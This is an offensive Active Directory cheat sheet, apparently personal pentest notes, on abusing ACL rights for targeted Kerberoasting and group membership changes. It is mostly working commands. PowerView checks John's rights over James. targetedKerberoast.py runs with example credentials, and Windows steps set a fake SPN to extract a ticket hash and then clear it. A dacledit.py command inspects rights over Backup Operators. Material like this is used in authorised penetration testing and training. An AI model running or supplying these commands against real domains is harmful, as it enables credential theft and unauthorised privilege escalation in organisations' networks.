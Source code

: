 ### <mark style="color:yellow;">Kerberoasting</mark>

If an account has the ability to edit the Service Principal Name attribute of another user they can make that account vulnerable to Kerberoasting attack. This is possible when the controlled account has `GenericAll`, `GenericWrite`, `WriteProperty`, `WriteSPN` or `Validated-SPN` over the target.

#### View user John rights over James

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity john).objectsid
Get-DomainObjectAcl -Identity james | ?{$_.SecurityIdentifier -eq $userSID}
```

#### Targeted Kerberoasting from Linux

```bash
targetedKerberoast.py -vv -d zencorp.local -u john -p pass132 --request-user james --dc-ip 10.129.205.81
```

{% hint style="info" %}
Fix clock skew error: sudo ntpdate dc\_ip\_adress
{% endhint %}

#### Targeted Kerberoasting from Windows

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
Get-DomainUser John | Select serviceprincipalname

# Set SPN
Set-DomainObject -Identity John -Set @{serviceprincipalname='fakespn/DOESNOTMATTER'} -Verbose

# Get John hash
$User = Get-DomainUser John
$User | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash

# Clear SPN
Set-DomainObject -Identity John -Clear serviceprincipalname -Verbose
```

### <mark style="color:yellow;">AddMembers</mark>

Having the ability to edit group's member attribute its possible to add new users to that group. This can happen with `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights`, or `Self-Membership` over the target group.

#### Check rights from Linux

```bash
dacledit.py -principal holly -target 'Backup Operators' -dc-ip 10.129.205.11 zencorp.local/john:password123
```
